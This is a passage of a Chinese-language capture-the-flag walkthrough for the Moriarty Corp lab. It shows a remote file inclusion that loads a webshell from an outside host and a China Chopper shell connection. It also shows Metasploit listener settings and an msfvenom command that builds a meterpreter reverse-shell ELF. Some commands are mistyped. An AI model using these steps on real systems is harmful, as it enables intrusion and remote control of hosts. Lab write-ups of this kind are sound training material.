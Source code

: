     -T：指定扫描过程使用的时序，总有 6 个级别（0-5），级别越高，扫描速度越快，在网络通讯状况较好的情况下推荐使用 T4。  

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qk7ujDx2wvuiaSAMSGQbEPzZgE66O6ic4zlAmiaib5AB0y7nlfrLS35uRG8Ot2UQtXunJ8zS36RzAPJiaw/640?wx_fmt=png)

**3.  文件包含**
------------

通过访问页面 http://IP/file=name.html，可猜测为目录遍历或者文件包含漏洞，如下为漏洞验证结果。

![](https://mmbiz.qpic.cn/mmbiz_jpg/lFOEJLHA9qk7ujDx2wvuiaSAMSGQbEPzZ8icQfzzYnr7DiaHrAZImXnAzkNtVSo3dNUf0PPIdQevzzHzup9bddVVw/640?wx_fmt=jpeg)

文件包含漏洞，通常分为本地文件包含和远程文件包含。本地文件包含，通常需要能够写入 webshell 的文件进行包含，进而获取 shell 权限。远程文件包含，可对远程写入 webshell 的文件进行包含，获取 shell 权限。如下为远程服务器 test.txt 文件写入 phpinfo();

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qk7ujDx2wvuiaSAMSGQbEPzZlHI09iaTm7WAibgPdKicMIXsV2IcsfFUZnlLSyu0gGXPBJhDGicpD0aJCg/640?wx_fmt=png)

访问页面对远程主机的 test.txt 文件进行包含，验证远程文件漏洞真实存在。这样可以在远程服务器写入 webshell 进行包含，进而获取 Moriarty Corp 服务器的主机 shell 权限。

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qk7ujDx2wvuiaSAMSGQbEPzZ3cVg9cPcJ3B759Sjarj9z1gWZvdUVV5ia7ym0HY5c0v5snJxhxs5fsg/640?wx_fmt=png)

如下所示，通过菜刀直接连接后，可以获取到 shell 权限。通过查看目录, 在根目录查看到 1_flag.txt。

木马文件链接地址：http://192.168.124.14/?file=http://xx.xx.xx.xx/snail.txt

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qk7ujDx2wvuiaSAMSGQbEPzZLcxl4iaFmT1pemhWTueTJiamyKS8seyKVAKfLA3MOjflY6D6F097ZFUA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qk7ujDx2wvuiaSAMSGQbEPzZ5fKxYy5Rm9EgjqRLmwYib3Xtfb7oAasQicoibgTYqq91Oc19vcfClQQAA/640?wx_fmt=png)

将获取到的 flag 内容进行提交后，Moriarty Corp 靶场给出新的提示。如下图所示，提示内网环境中存在重要的网站，里面存在要获取的 flag 信息，并且告知内网范围在 172.17.0.3-254 段。由此，开始步入后渗透攻击阶段，由于靶场环境主要以 linux 系统环境为主，故此处后渗透工具在此处选择 metasploit 工具为主。

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qk7ujDx2wvuiaSAMSGQbEPzZCZq9Nt2hibg7AjSIOBQu5ZIMmosyqBa82HXd4fc8ia1oqN35jicKe2kPA/640?wx_fmt=png)

**4.Payload 反弹**
----------------

攻击机进行监听设置 (注意：监听主机设置需要与生成的 payload 保持一致)：

```
>>> useexploit/multi/handler
>>> set payloadslinux/x64/meterpreter_reverse_tcp
>>> set LHOST192.168.124.15        #监听主机ip地址
>>> set PORT 9999                  #监听主机端口号
>>>exploit -j
```

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qk7ujDx2wvuiaSAMSGQbEPzZHo9dA3Fd7PUxynSjy5DBvWfLy0JeOgH5vNccibv1eDnx7PzbuVuibgqg/640?wx_fmt=png)  

生成反弹需要的 payload 文件：

```
>>> msfvenom -plinux/x64/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
```

 ![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qk7ujDx2wvuiaSAMSGQbEPzZrdp8JAlQLXD3douRgu7BEy0ewRLbqD1lic5PpE3s8oXE7BU93AT5qiag/640?wx_fmt=png)
